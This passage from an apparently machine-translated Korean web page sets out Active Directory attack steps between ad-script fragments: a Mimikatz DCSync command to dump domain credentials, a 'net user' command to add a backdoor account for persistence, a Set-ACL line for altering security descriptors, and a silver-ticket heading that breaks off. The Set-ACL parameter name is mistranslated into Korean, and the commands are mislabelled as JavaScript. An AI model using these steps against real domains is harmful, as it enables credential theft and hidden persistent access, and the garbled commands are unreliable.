 - Mimikatz를 사용하여 DCSync 실행.

```js
mimikatz.exe "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

2. 덤프된 자격 증명은 안전하게 저장하세요.

# 권한 상승 및 지속성

- 백도어 계정 생성을 통해 액세스 유지

```js
net user <username> <password> /add
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

2. 보안 설명자를 수정하여 지속성을 확보합니다.

```js
Set-ACL -경로 "AD:<경로>" -ACLObject $acl
```

# 실버 티켓

- 서비스 계정 해시를 사용하여 실버 티켓을 생성합니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
